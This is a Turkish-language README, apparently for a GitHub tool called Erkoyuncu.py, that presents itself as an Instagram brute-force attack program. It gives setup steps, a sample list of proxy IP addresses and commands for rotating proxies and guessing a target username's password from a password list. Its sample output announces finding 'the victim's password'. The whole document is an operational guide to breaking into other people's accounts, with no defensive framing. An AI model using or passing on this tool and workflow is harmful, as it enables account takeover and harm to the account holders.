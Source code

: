 ## **İNSTAGRAM BRUTE FORCE ATTACK**

**BU PROGRAM, BIR PROXY LISTESI VERILDIĞINDE GÖNDERDIĞINIZ HERHANGI BIR INSTAGRAM HESABINA BRUTEFORCE UYGULAYACAKTIR.**


# **Gereksinimler**
- > *Python v3.9*
- > *GünceL Proxy Listesi*

# **DESTEKÇILERI YÜKLEYIN**
- > *pip install pipenv**


 **PYTHON 3.9'UN KURULU OLDUĞUNDAN EMIN OLUN**
- > *pipenv --python 3.9*

# **Kurulum Gereksinimleri**
- > pipenv install

# **YARIMCI KOMUTLAR**


- *> usage: -h, --help    -k KULLANICIADI, -p PASSLISTESI,-px PROXYLISTESI,  --prune PRUNE --stats               proxy istatisliklerini görmek için -nc, --renk yok*

**Programa bir proxy listesi yükleyin. Proxy dosyası şu formatta olmalıdır: ip:port**

**Örnek;**

> *proxies_list.txt
3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80*
**

**PROXY LISTESINI YÜKLEMEK IÇIN YAZILACAK KOMUT **
- > *python3 Erkoyuncu.py -px <proxy yolu>*


**BU, KOMUT PROXYLER HAKKINDA SAĞLIK DURUMUNU VERIR.**

- > *python Erkoyuncu.py --stats*

**BU, BELIRLI BIR PUANIN ALTINDA BIR PUANA SAHIP PROXY'LERDEN KURTULMAYI SAĞLAR. AŞAĞIDA PROXY PUANI OLAN PROXY'LERIN VERITABANINI SIZE GÖSTERIR (Yazılım zaten hangi proxy'lerin kötü performans gösterdiğini otomatik olarak öğrenecek ve bunları kullanmayı bırakacaktır.)**

- > *python Erkoyuncu.py --prune 0.05*-

# **Kullanım**
>-  *git clone https://github.com/erkoyuncu/volkan.git*

> - python3 Erkoyuncu.py -u kullanıcıadı -p passlistesi -px proxylistesi


- > *YAZILIM İÇİ
- [-] Passwordlistesi:
- [-] Kullanıcı Adı:
- [-] Şifre:
- [-] Tamamlanan:
- [-] Denenen:
- [-] Proxyler:
- [-] Bağlantı:*

- *> [!] HEYY Kurbanın Şifresini Buldum 
- [+] Kullanıcı Adı:
- [+] Şifresi:*
